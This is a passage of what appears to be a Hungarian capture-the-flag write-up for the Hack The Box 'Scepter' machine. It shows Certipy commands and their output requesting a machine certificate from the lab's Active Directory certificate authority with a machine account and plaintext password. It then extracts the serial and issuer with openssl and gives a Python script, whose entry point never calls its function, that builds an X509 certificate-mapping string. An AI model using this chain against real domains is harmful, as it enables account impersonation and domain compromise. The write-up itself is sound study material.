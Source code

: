 ```bash
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'scepter-DC01-CA'
[-] Got error: module 'enum' has no attribute '_decompose'
[-] Use -debug to print a stacktrace
```

**Certipy find + req → géptanúsítvány beszerzés**

```bash
certipy req -ca scepter-DC01-CA -template Machine -target 10.10.11.65 -username 'nosecpc$' -password 'Password123'

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 9
[*] Got certificate with DNS Host Name 'nosecpc.scepter.htb'
[*] Certificate object SID is 'S-1-5-21-74879546-916818434-740295365-9101'
[*] Saved certificate and private key to 'nosecpc.pfx'
```

## Cert szerzés

```bash
certipy cert -pfx nosecpc.pfx -nokey -out nosecpc.crt
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'nosecpc.crt'
```

```bash
**openssl x509 -in nosecpc.crt -noout -serial -issuer**
serial=6200000009929668CFF0981AD8000000000009
issuer=DC=htb, DC=scepter, CN=scepter-DC01-CA
```

## Átalakítjuk kettősponttal tagolt hex stringé

```bash
echo 6200000009929668CFF0981AD8000000000009 | sed 's/../&:/g;s/:$//'
```
---

## X509 string generálás (Python)

```python
import argparse

def convert(serial, issuer):
    serial = serial.replace(':', '').lower()
    serial_bytes = bytearray.fromhex(serial)
    serial_bytes.reverse()
    serial_hex = ''.join(['%02x' % b for b in serial_bytes])
    issuer_parts = issuer.split(',')
    issuer_parts = [p.strip() for p in issuer_parts]
    issuer_parts.reverse()
    issuer_str = ','.join(issuer_parts)
    print(f"X509:<I>{issuer_str}<SR>{serial_hex}")

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument('-serial', required=True, help='Certificate serial (colon separated)')
    parser.add_argument('-issuer', required=True, help='Certificate issuer')
    args = parser.parse_args()
```